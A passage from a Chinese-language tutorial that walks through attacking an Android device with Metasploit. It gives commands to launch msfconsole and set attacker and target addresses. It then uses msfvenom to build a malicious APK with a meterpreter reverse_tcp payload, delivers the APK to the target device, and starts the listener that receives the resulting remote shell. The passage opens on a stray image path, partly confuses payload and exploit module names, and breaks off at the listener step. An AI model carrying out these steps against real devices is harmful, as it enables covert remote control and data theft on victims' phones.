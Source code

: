    - 在你的攻击机器上启动Metasploit控制台。

     ```
     msfconsole
     ```

### 步骤4：寻找并利用漏洞

1. **搜索安卓漏洞模块**：

   - 在Metasploit控制台中，搜索可用的安卓漏洞利用模块。

     ```
     search android
     ```
   
2. **选择适合的漏洞模块**：

   - 假设你选择了一个合适的安卓漏洞模块，例如

     ```
     android/meterpreter/reverse_tcp
     ```

     。

     ```
     use exploit/android/meterpreter/reverse_tcp
     ```
   
3. **配置有效载荷**：

   - 设置目标的IP地址和端口。

     ```
     set LHOST <你的攻击机IP地址>
     set LPORT <你希望使用的端口>
     set RHOST <目标设备IP地址>
     ```

4. **生成并传送APK**：

   - 生成一个恶意的APK文件，并将其传送到目标设备上。

     ```
     msfvenom -p android/meterpreter/reverse_tcp LHOST=<你的攻击机IP地址> LPORT=<你希望使用的端口> -o /path/to/save/app.apk
     ```

### 步骤5：执行攻击

1. **启动监听器**：

   - 在Metasploit控制台中启动监听器。

     ```
     exploit
     ```
   